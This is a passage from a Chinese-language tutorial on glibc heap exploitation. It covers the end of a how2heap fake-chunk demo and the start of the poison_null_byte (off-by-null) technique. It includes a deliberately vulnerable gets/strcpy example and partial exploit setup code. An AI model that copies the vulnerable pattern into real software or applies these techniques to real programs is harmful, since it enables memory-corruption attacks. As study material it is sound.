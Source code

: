 然后free掉fake chunk，再malloc分配出来：

```c
	a = &fake_chunks[2];

	fprintf(stderr, "Freeing the overwritten pointer.\n");
	free(a);

	fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
	fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
```

之后就可以将该区域当作堆块进行操作。

### 7	poison_null_byte

这里触发漏洞的特征主要是off_by_null，即堆块中存在1字节的溢出，并且溢出的字节为NULL，这样的情况常见于字符串的操作中，如以下示例（参考CTF-Wiki关于off_by_one的介绍）：

```c
int main(void)
{
    char buffer[40]="";
    void *chunk1;
    chunk1=malloc(24);
    puts("Get Input");
    gets(buffer);
    if(strlen(buffer)==24)
    {
        strcpy(chunk1,buffer);
    }
    return 0;

}
```

由于strlen函数计算时没有考虑NULL字符，而strcpy在复制时会把NULL字符复制过去，因此造成了上面实例中出现一个NULL字节的溢出，又由于Glibc本身的内存管理机制的问题，造成可以对其进行利用。下面分析how2heap中对这一漏洞的利用方式。

首先构造三个chunk分别是a、b、c，a用来触发off_by_null的漏洞，b作为要被利用的chunk，c则是用来构造fake chunk的，此外，该利用过程malloc分配的堆块都要保证大于fastbin的范围，因此在加入tcache机制的libc版本中无法进行利用，此外，代码中还加入了一个barrier堆块，用来防止chunk c在free后直接与top chunk合并。

```c
	a = (uint8_t*) malloc(0x100);
	fprintf(stderr, "a: %p\n", a);
	int real_a_size = malloc_usable_size(a);
	fprintf(stderr, "Since we want to overflow 'a', we need to know the 'real' size of 'a' "
		"(it may be more than 0x100 because of rounding): %#x\n", real_a_size);

	/* chunk size attribute cannot have a least significant byte with a value of 0x00.
	 * the least significant byte of this will be 0x10, because the size of the chunk includes
	 * the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0x200);

	fprintf(stderr, "b: %p\n", b);

	c = (uint8_t*) malloc(0x100);
```
